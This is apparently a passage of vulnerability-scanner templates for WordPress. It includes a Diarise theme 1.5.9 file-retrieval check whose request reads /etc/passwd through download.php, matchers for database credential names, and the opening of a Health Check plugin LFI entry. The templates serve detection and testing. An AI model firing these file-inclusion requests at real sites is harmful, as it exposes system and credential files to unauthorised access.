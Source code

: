 - words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Diarise 1.5.9 - Arbitrary File Retrieval

## Description

- WordPress Diarise theme version 1.5.9 suffers from a local file retrieval vulnerability.
- severity - high
- tags - packetstorm,wordpress,wp-theme,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/diarise/download.php?calendar=file:///etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# WordPress Health Check & Troubleshooting \<1.24 - Local File Inclusion

## Description

- WordPress Health Check & Troubleshooting prior to 1.2.4 is vulnerable to local file inclusion. Exploitation does require authentication.
- severity - high
- tags - lfi,wp,wordpress,wp-plugin,authenticated,lfr,wpscan
